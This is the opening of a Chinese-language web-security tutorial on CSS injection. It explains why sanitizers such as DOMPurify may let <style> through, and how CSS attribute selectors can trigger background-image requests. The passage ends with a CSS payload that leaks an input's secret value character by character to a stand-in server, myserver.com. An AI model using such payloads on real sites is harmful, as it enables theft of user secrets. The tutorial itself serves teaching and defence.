 ```yaml
---
sidebar_position: 17
---
```


# 只用 CSS 也能攻擊？CSS injection（上）

前面我們看的幾個攻擊例如說 Prototype Pollution 或是 DOM clobbering，都是藉由各種方式去影響 JavaScript 的執行，讓 JavaScript 的執行出現意料之外的結果。換句話說，最後造成影響力的還是 JavaScript。

而接下來我們就要看幾個「完全不需要 JavaScript」也能造成影響力的攻擊方式了，第一個就是這篇要講的 CSS injection。

如果有寫過前端的話，你可能已經知道 CSS 是個很神奇的東西了，例如說你可以用純 CSS 寫出：

1. [圈圈叉叉](https://codepen.io/alvaromontoro/pen/vwjBqz)
2. [彈幕遊戲](https://codepen.io/i0z/pen/AwYbda)
3. [3D 遊戲](https://garethheyes.co.uk/)

是的，你沒有看錯，真的是純 CSS 加上 HTML，完全沒有任何一行的 JavaScript，CSS 就是這麼神奇。

如此神奇的 CSS 拿來當作攻擊的手段，可以達到什麼樣的效果呢？就讓我們繼續看下去。

## 什麼是 CSS injection？

顧名思義，CSS injection 代表的是在一個頁面上可以插入任何的 CSS 語法，或是講得更明確一點，可以使用 `<style>` 這個標籤。你可能會好奇，為什麼會有這種狀況？

我自己認為常見的狀況有兩個，第一個是網站有過濾掉許多標籤，但不覺得 `<style>` 有問題，所以沒有過濾掉。像是之前提過用來做 sanitize 的 DOMPurify，雖然說預設就會把各種危險的標籤全都過濾掉，只留下一些安全的，例如說 `<h1>` 或是 `<p>` 這種，但重點是 `<style>` 也在預設的安全標籤裡面，所以如果沒有特別指定參數，在預設的狀況下，`<style>` 是不會被過濾掉的，因此攻擊者就可以注入 CSS。

第二種狀況則是雖然可以插入 HTML，但是由於 CSP 的緣故，沒有辦法執行 JavaScript。既然沒辦法執行 JavaScript，就只能退而求其次，看看有沒有辦法利用 CSS 做出一些惡意行為。

那到底有了 CSS injection 之後可以幹嘛？CSS 不是拿來裝飾網頁用的而已嗎？難道幫網頁的背景換顏色也可以是一個攻擊手法？

## 利用 CSS 偷資料

CSS 確實是拿來裝飾網頁用的，但是只要結合兩個特性，就可以使用 CSS 來偷資料。

第一個特性：屬性選擇器。

在 CSS 當中，有幾個選擇器可以選到「屬性符合某個條件的元素」。舉例來說，`input[value^=a]`，就可以選到 value 開頭是 `a` 的元素。

類似的選擇器有：

1. `input[value^=a]` 開頭是 a 的（prefix）
2. `input[value$=a]` 結尾是 a 的（suffix）
3. `input[value*=a]` 內容有 a 的（contains）

而第二個特性是：可以利用 CSS 發出 request，例如說載入一張伺服器上的背景圖片，本質上就是在發一個 request。

假設現在頁面上有一段內容是 `<input name="secret" value="abc123">`，而我能夠插入任何的 CSS，就可以這樣寫：

``` css
input[name="secret"][value^="a"] {
  background: url(https://myserver.com?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://myserver.com?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://myserver.com?q=c)
}

//....

```